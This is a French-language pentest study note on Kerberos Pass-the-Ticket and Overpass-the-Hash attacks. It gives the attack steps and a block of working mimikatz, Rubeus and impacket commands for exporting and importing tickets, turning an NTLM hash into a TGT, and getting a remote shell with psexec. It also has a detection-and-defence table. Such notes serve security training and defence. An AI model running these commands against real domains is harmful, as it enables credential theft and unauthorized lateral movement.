

# 🎫 Pass-the-Ticket & Overpass-the-Hash

> [!info] **En 1 phrase**
> **Pass-the-Ticket (PtT)** = rejouer un ticket Kerberos volé. **Overpass-the-Hash** = transformer un
> hash NTLM en TGT Kerberos. Les deux donnent une identité Kerberos **sans mot de passe**.

---

## 🎯 Concept



---

## ⚙️ Comment ça marche

### Pass-the-Ticket
1. **Voler** un ticket Kerberos depuis la mémoire d'un processus utilisateur (mimikatz/Rubeus).
2. **Importer** le ticket dans notre session.
3. Accéder aux services **comme la victime** — sans mot de passe ni hash.

### Overpass-the-Hash
1. On a un **hash NTLM** d'un utilisateur.
2. On l'utilise pour obtenir un **TGT** (comme si on s'authentifiait).
3. Une fois le TGT en poche → **mêmes pouvoirs qu'un ticket normal**, y compris sur les services **Kerberos-only**.

> [!info] 💡 **Pourquoi l'Overpass est utile**
> Certains protocoles (Kerberos pur) n'acceptent PAS le PtH. Convertir le hash en TGT contourne ça.

---

## 🛠️ Exploitation

```bash
# Mimikatz (Windows) - exporter les tickets
sekurlsa::tickets /export          # → fichiers .kirbi

# Importer un ticket
kerberos::ptt ticket.kirbi

# Rubeus - Pass-the-Ticket
Rubeus.exe ptt /ticket:ticket.kirbi

# Rubeus - Overpass-the-Hash (convertit le hash en TGT)
Rubeus.exe asktgt /user:admin /rc4:<hash_ntlm> /ptt

# Linux (impacket) - Overpass-the-Hash
getTGT.py -dc-ip 192.168.1.10 -hashes :579da618cfbfa8527ac86ce7d6f24d48 'corp.local/admin'
export KRB5CCNAME=admin.ccache
psexec.py -k -no-pass -dc-ip 192.168.1.10 'corp.local/admin@DC01.corp.local'
```

---

## 🔍 Détection & Défense

| Indicateur | Détail |
|---|---|
| **Événements Kerberos** | Tickets utilisés depuis des adresses IP/ordinateurs différents |
| **Volume de tickets** | Plusieurs tickets d'un même compte dans la même session |
| **Réponse** | Rotation des secrets, **Credential Guard**, surveiller les accès Kerberos anormaux, restreindre l'admin local |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **La validité d'un TGT est ~10h**
> Voler/forger des tickets = fenêtre limitée. Agis vite après obtention.

> [!warning] ⚠️ **Piège** : les tickets sont liés à l'horloge (skew < 5 min) et au **nom de l'hôte**. Synchronise l'heure et utilise les bons noms (`FQDN`).

---

## 🔗 Liens

- [[Kerberos - Le protocole|👑 Kerberos]]
- [[Pass-the-Hash|🔑 Pass-the-Hash]]
- [[Golden Ticket|👑 Golden Ticket]]
- [[Silver Ticket|💠 Silver Ticket]]
- → Note complète : [[05 - Active Directory|👑 Active Directory]]
